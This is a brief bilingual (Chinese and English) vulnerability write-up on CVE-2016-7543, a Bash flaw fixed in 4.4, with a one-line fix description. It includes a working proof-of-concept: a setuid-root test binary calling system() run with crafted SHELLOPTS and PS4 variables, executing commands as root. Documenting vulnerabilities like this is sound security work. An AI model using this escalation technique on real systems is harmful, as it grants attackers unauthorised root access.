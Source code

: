 # CVE-2016-7543
---
## threat type
  local
---
## vulnerability type
  输入验证
---
## introduction
  Bash 4.4之前的版本中存在安全漏洞。本地攻击者可借助特制的SHELLOPTS和PS4环境变量利用该漏洞以root权限执行任意命令。
  The recent bash 4.4 patched an old attack vector regardingspecially crafted SHELLOPTS+PS4 environment variables against bogus setuid binaries using system()/popen().

## recurrence
```sh
# gcc -xc - -otest <<< 'int main() { setuid(0); system("/bin/date"); }'
# chmod 4755 ./test
# ls -l ./test
-rwsr-xr-x. 1 root root 8549 Sep 10 18:06 ./test
# exit
$ env -i SHELLOPTS=xtrace PS4='$(id)' ./test #xtrace+PS4可以在带有system的二进制中执行额外的命令
uid=0(root)
Sat Sep 10 18:06:36 WET 2016
```

---
## exploitaion
  使用了system/popen+的带有S权限的二进制程序，我们可以利用SHELLOPTS+PS4以root权限执行任意命令。
---

## fix
  获取PS4的值之前，判断euid是否为0.
